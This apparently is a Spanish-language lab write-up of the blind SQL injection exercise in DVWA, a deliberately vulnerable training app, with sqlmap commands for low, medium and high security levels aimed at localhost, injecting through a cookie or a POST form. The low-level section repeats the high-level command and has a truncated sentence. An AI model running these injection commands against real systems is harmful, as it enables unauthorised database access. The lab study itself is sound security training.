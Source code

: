 # SQLi Blind

Se ha procedido de manera prácticamente análoga a la tarea de [SQLi](/SQLI/SQLi.md) normal. 
La única diferencia en la metodología de ataque está en el campo en el que se inyecta el código malicioso, el código presenta las mismas vulnerabilidades que en SQLi.

## Bajo

Se ha llevado a cabo la misma metodología de ataque, utilizando la . Para obtener la versión del SGBD de la aplicación vulnerable basta con usar la herramienta SQLmap con una cookie interceptada y añadir el parámetro inyectable en la query de la URL:

```bash
sqlmap -u "http://localhost/DVWA/vulnerabilities/sqli_blind/cookie-input.php" --cookie "id=15; PHPSESSID=<session>; security=high" --second-url "http://localhost/DVWA/vulnerabilities/sqli_blind" --batch
```

## Medio

En este caso la inyección se realiza a través del formulario por POST. Se obtiene el mismo resultado:

```bash
sqlmap -u "http://localhost/DVWA/vulnerabilities/sqli_blind/#" --cookie "PHPSESSID=s0i2frqjujok0qsdibcem15b3s; security=medium" --data "id=1&Submit=Submit" --batch --dbs
```

![blind_med](assets/sqli_blind_med.png)

## Alto

En este caso, el parámetro inyectable se encuentra en la propia cookie, por lo que hay que incluirlo en la petición maliciosa. Además, como se abre una ventana emergente y el resultado se obtiene a través de otra ruta, hay que incluir la URL secundaria para capturar los resultados de la inyección.

```bash
sqlmap -u "http://localhost/DVWA/vulnerabilities/sqli_blind/cookie-input.php" --cookie "id=15; PHPSESSID=<session>; security=high" --second-url "http://localhost/DVWA/vulnerabilities/sqli_blind" --batch
```

![blind_hi](assets/sqli_blind_hi.png)